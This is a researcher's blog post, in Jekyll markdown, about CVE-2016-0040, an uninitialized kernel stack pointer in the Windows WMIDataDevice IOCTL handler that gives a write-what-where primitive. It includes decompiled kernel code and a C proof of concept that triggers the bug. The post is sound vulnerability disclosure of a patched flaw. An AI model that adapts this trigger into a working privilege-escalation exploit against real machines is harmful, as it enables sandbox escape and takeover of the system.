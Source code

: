 ```yaml
---
layout: post
title: "CVE-2016-0040 Story of Uninitialized Pointer in Windows Kernel"
date: 2024-03-29 1:1:59 +0100
categories: fuzzing
---
```

Update:

This post is a resharing of a blog I wrote about a vulnerability I discovered in Windows kernel almost a decade ago.


this vulnerablity is interesting for three reseaons 
* it's a tweetable vulnerablity :)
* it gave Write arbitrary data to arbitrary address primitive. 
* it has an amusing story associated with it. after my discovery of this vulnerability, I shared a tweet about it, which caught the attention of researchers from Microsoft. Remarkably, they were able to discern the root cause of the vulnerability simply by examining my tweet.
you can read their story in [MSRC blog](https://msrc.microsoft.com/blog/2017/06/tales-from-the-msrc-from-pixels-to-poc/)

![My image Name](/assets/tweet.png)
* there was another vulnerablity( CVE-2016-0087) in this function I had found and I was expecting MSRC to spot it when then are auditing wmi, but they didn't.


Original post:

A few months ago, I discovered some vulnerabilities in the Windows kernel, mostly related to local privilege escalation.

Microsoft patched one of the reported vulnerabilities in MS16-014. The vulnerability type is an uninitialized pointer dereference. This vulnerability can be triggered even by a process with "low integrity level", meaning that successfully exploiting this vulnerability can lead to bypassing the sandbox (for example, the IE sandbox) or generic local privilege escalation for any process.


Here's a description of the bug:

For handling some WMI functions, Windows NT creates a named device called <mark>WMIDataDevice</mark>.

This device is accessible from user mode with any permission (you can check it with WinObj). WMIDataDevice handles some IOCTLs, with the <mark>WmipReceiveNotifications</mark> function responsible for the <mark>IOCTL_WMI_ENUMERATE_GUIDS IOCTL</mark>. Based on the first DWORD of <mark>Irp->AssociatedIrp.SystemBuffer</mark>, WmipReceiveNotifications decides whether to use the <mark>stack</mark> or <mark>kernel pool</mark> as a buffer for storing data/pointers. If the first DWORD is less than or equal to 0x10, the stack is selected as the buffer.

There's another important usage of the mentioned DWORD. WmipReceiveNotifications uses this DWORD as a counter for looping and initializing the local buffer. So, if we put 0 in the first DWORD of Irp->AssociatedIrp.SystemBuffer from user mode, the function selects the stack as the buffer. As mentioned earlier, this buffer is initiated in a loop. In this case, since we passed 0, the function skips loop execution, leaving the stack buffer uninitialized.

To reach the vulnerability, we need to bypass some other condition inside WmipReceiveNotifications.


v16 comes from user mode and its value needs to be 2.
{% highlight cpp %}
v16 = *(_DWORD *)(SystemBuffer + 4);
{% endhighlight %}

Insert a valid handle for ObReferenceObjectByHandle in SystemBuffer.
{% highlight cpp %}
v39 = ObReferenceObjectByHandle(*(HANDLE *)(SystemBuffer + 16), 0x43Au, 0, 1, &PIRP, 0);
{% endhighlight %}


finally uninitialized local variable used as target pointer and function write a DWORD from SystemBuffer + 8 to it

we can control what is written but for manipulating uninitialized stack we need a good stack spray inside kernel

{% highlight cpp %}
v23 = *(_DWORD *)LocalBuffer;

*(_DWORD *)(v23 + 60) = *(_DWORD *)(SystemBuffer + 8); // Write arbitrary data to uninitialized local variable or Write-what-where condition
{% endhighlight %}

Utilizing an uninitialized local variable as a pointer to write arbitrary data to its referenced location requires the attacker to employ a stack spraying technique for successful exploitation. This vulnerability presents a "write-what-where" condition, offering multiple ways for exploitation, such as zero ACL or SET token permission.

{% highlight cpp %}
int __userpurge WmipReceiveNotifications(int SystemBuffer , unsigned int * OutputBufferSize, PVOID PIRP) {
     ...
     ...
 
     v4 = SystemBuffer;
     v5 = * OutputBufferSize;
     v6 = * (_DWORD * ) v4;
     v39 = -1073741811;
     v37 = v5;
     v36 = v6;
     if (v6 <= 0x10) // if first value inside buffer from user mode is less than or equal to 0x10 then use local stack so we pass 0 to force use local stack
     {
         LocalBuffer =& v32;;
         
     } else {
         LocalBuffer = ExAllocatePoolWithTag(PagedPool, 8 * v6, 0x70696D57 u);
         if (!LocalBuffer)
             return -1073741670;
     }
 
     we don 't go inside this if because we use passed zero
 
     v42 = 0;
     v40 = 0;
     v38 = 0;
     v44 = 0;
     v41 = 0;
     if (v6) 
{
         do {
             v39 = ObReferenceObjectByHandle( * (HANDLE * )(v4 + 8 * v41 + 24), 4 u, WmipGuidObjectType, 1,&Object, 0);
             if (v39<0) goto LABEL_55;
             v8 = Object;
             v9 = 0;
             if (v44) {
                 while (Object != * ((PVOID * ) LocalBuffer + 2 * v9)) {.......
                 }
             }
         }
     } // because v42 and v45 is set to 0 we also bypass this two if 
if ( v42 == 1 ) { ... ... ... } 
if ( v45 | BYTE3(PIRP) ) { v13 = v37; if ( v11 &v37 )
     
  * (_DWORD * )(v4 + 48) = v11; * (_DWORD * ) v4 = 56; * (_DWORD * )(v4 + 44) = 32; * OutputBufferSize = 56;
     
     ...
     ...
     ...
 
 //v16 come from user mode so we can set it's value 2 then lead code to here
 
 if (v16 != 2) 
{
     LABEL_54:
         * OutputBufferSize = 0;
     goto LABEL_55;
 }
 v39 = ObReferenceObjectByHandle( * (HANDLE * )(v4 + 16), 0x43A u, 0, 1,&PIRP, 0);
 if (v39 >= 0)
 {
     v39 = ObOpenObjectByPointerWithTag((ULONG_PTR) PIRP, 512, 0, 0x1FFFFF, 0, 0, 1953261124, (int)&v35);
     if (v39>= 0)
 {
         v23 = * (_DWORD * ) LocalBuffer; * (_DWORD * )(v23 + 60) = * (_DWORD * )(v4 + 8); // write arbitrary data from uninitialized local variable

{% endhighlight %}

# Advantages of the vulnerability:
* The bug can be triggered even in low integrity contexts.
*  It's unrelated to win32k.sys, meaning it ignores the "Win32k system call disable policy", for instance in Chrome browser.
* It works with the default OS configuration, providing a universal sandbox bypass.

Sample POC for the vulnerability
{% highlight cpp %}

typedef union {
    HANDLE Handle;
    ULONG64 Handle64;
    ULONG32 Handle32;
}
HANDLE3264, * PHANDLE3264;
 
typedef struct {
    //
    // List of guid notification handles
    //
    ULONG HandleCount;
    ULONG Action;
    HANDLE /* PUSER_THREAD_START_ROUTINE */ UserModeCallback;
    HANDLE3264 UserModeProcess;
    HANDLE3264 Handles[20];
}
WMIRECEIVENOTIFICATION, * PWMIRECEIVENOTIFICATION;
 
#define RECEIVE_ACTION_CREATE_THREAD 2 // Mark guid objects as requiring
 
typedef struct {
    IN VOID * ObjectAttributes;
    IN ACCESS_MASK DesiredAccess;
 
    OUT HANDLE3264 Handle;
}
WMIOPENGUIDBLOCK, * PWMIOPENGUIDBLOCK;
 
#define IOCTL_WMI_ENUMERATE_GUIDS\
CTL_CODE(FILE_DEVICE_UNKNOWN, WmiEnumerateGuidList, METHOD_BUFFERED, FILE_READ_ACCESS)
 
void main() {
    DWORD dwBytesReturned;
    HANDLE threadhandle;
    WMIRECEIVENOTIFICATION buffer;
    CHAR OutPut[1000];
 
    memset( & amp; buffer, '\x41', sizeof(buffer)); // set ecx to 0x41414141
    buffer.HandleCount = 0;
    buffer.Action = RECEIVE_ACTION_CREATE_THREAD;
    buffer.UserModeProcess.Handle = GetCurrentProcess(); 
 
    // using NtMapUserPhysicalPages for spraying stack cant help us
 
    HANDLE hDriver = CreateFileA("\\\\.\\WMIDataDevice", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hDriver != INVALID_HANDLE_VALUE) {
        while (TRUE) {
            if (!DeviceIoControl(hDriver, IOCTL_WMI_RECEIVE_NOTIFICATIONS, & amp; buffer, sizeof(buffer), & amp; OutPut, sizeof(OutPut), & amp; dwBytesReturned, NULL)) {
                return;
            }
        }
 
    }
 
}
{% endhighlight %}


[jekyll-docs]: https://jekyllrb.com/docs/home
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-talk]: https://talk.jekyllrb.com/




